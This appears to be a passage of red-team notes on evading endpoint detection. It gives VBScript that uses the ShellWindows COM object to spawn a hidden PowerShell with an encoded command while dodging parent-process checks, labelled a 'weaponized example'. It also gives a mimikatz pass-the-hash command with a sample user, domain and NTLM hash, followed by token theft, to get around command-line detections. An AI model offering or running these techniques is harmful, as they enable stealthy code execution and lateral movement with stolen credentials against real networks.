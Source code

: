 so we use COM to avoid this

how to execute without the current parent
```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0
```

weaponized example
```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc <base64>", Null, Null, 0
```


### Command Line Detections

The easiest workaround is to find a way to achieve the same goal but in a way that doesn't involve the same command line arguments.  For pass-the-hash, we can simply start an arbitrary process and steal its token manually.

```
mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe
steal_token <PID>
```





